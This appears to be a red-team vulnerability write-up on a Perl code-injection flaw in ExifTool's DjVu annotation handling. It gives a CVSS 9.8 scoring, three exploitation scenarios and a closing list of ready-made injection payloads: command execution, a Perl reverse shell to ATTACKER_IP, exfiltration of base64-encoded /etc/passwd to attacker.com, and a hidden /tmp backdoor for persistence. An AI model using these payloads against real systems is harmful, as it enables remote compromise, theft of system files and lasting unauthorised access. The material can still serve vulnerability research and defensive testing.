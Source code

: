 **CVSS 3.1 SCORING:**
**Base Score: 9.8 (CRITICAL)**
- Attack Vector: Network (AV:N) - via file upload/processing
- Attack Complexity: Low (AC:L) - straightforward exploitation
- Privileges Required: None (PR:N) - no authentication needed
- User Interaction: None (UI:N) - automatic processing
- Scope: Unchanged (S:U) - impacts vulnerable component
- Confidentiality Impact: High (C:H) - arbitrary code execution
- Integrity Impact: High (I:H) - system modification possible
- Availability Impact: High (A:H) - system compromise possible

**EXPLOITATION SCENARIOS:**

**Scenario 1: Web Application Attack**
- Target: Web apps with file upload using ExifTool
- Vector: Upload malicious DjVu file
- Payload: Perl code in annotation strings
- Impact: Web server compromise, data theft

**Scenario 2: Email/Document Processing**
- Target: Automated email attachment processing
- Vector: Email with malicious DjVu attachment
- Payload: System command execution
- Impact: Mail server compromise, lateral movement

**Scenario 3: Batch File Processing**
- Target: Document management systems
- Vector: Place malicious DjVu in monitored directory
- Payload: Backdoor installation, persistence
- Impact: System compromise, data exfiltration

**RED TEAM EXPLOITATION RECOMMENDATIONS:**

**Payload Development:**
1. **Basic RCE Payload:**
   ```
   "; system('id; whoami; pwd'); "
   ```

2. **Reverse Shell Payload:**
   ```
   "; use Socket; socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp')); connect(S,sockaddr_in(4444,inet_aton('ATTACKER_IP'))); open(STDIN,'>&S'); open(STDOUT,'>&S'); open(STDERR,'>&S'); exec('/bin/sh -i'); "
   ```

3. **Data Exfiltration Payload:**
   ```
   "; use LWP::Simple; get('http://attacker.com/exfil?data='.`cat /etc/passwd | base64 -w0`); "
   ```

4. **Persistence Payload:**
   ```
   "; open(F,'>/tmp/.backdoor.pl'); print F 'BACKDOOR_CODE'; close(F); system('perl /tmp/.backdoor.pl &'); "
   ```
